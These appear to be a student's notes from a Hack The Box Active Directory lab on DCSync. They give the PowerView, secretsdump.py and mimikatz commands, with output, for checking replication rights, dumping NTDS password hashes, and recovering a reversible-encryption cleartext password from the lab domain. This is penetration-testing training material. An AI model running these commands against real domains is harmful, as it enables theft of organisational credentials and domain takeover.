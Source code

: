 DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes

requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

#### pre-request
have control over an account that has the rights to perform domain replication.
Domain/Enterprise Admins and default domain administrators have this right by default.

## ATTACK CHAIN
```
adunn user pwned
get sid for aducc
check ACL for adunn
DS-Replication ???
```

#### Using Get-DomainUser to View adunn's Group Membership
```powershell-session
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
```
#### Using Get-ObjectAcl to Check adunn's Replication Rights
```powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

impacket
```shell-session
AhmaDb0x@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```
The `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
[^1]
[^1]:  `secretsdump`
	We can use the `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>` to only extract data for a specific user. Other useful options include `-pwd-last-set` to see when each account's password was last changed and `-history` if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The `-user-status` is another helpful flag to check and see if a user is disabled. We can dump the NTDS data with this flag and then filter out disabled users when providing our client with password cracking statistics to ensure that data such as:
	
	- Number and % of passwords cracked
	- top 10 passwords
	- Password length metrics
	- Password re-use

#### Listing Hashes, Kerberos Keys, and Cleartext Passwords
```shell-session
AhmaDb0x@htb[/htb]$ ls inlanefreight_hashes*

inlanefreight_hashes.ntds  inlanefreight_hashes.ntds.cleartext  inlanefreight_hashes.ntds.kerberos
```

#### Viewing an Account with Reversible Encryption Password Storage Set

passwords are `NOT` stored in cleartext. Instead, they are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent. Tools such as `secretsdump.py` will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync. If this setting is disabled on an account, a user will need to change their password for it to be stored using one-way encryption. Any passwords set on accounts with this setting enabled will be stored using reversible encryption until they are changed. We can enumerate this using the `Get-ADUser` cmdlet:

#### Enumerating Further using Get-ADUser
```powershell-session
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```

#### Checking for Reversible Encryption Option using Get-DomainUser
```powershell-session
PS C:\htb> Get-DomainUser -Identity syncron | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

#### Displaying the Decrypted Password
```shell-session
AhmaDb0x@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

Some clients may do this to be able to dump NTDS and perform periodic password strength audits without having to resort to offline password cracking.

###  Mimikatz
Using Mimikatz, we must target a specific user.
target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.


Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this: <> adunn

```cmd-session
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

```powershell-session
PS C:\htb> .\mimikatz.exe
```

```powershell-session
mimikatz # privilege::debug
```

```powershell-session
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```


## Moving On

In the next section, we'll see some ways to enumerate and take advantage of remote access rights that may be granted to a user we control. These methods include Remote Desktop Protocol (RDP), WinRM (or PsRemoting), and SQL Server admin access.

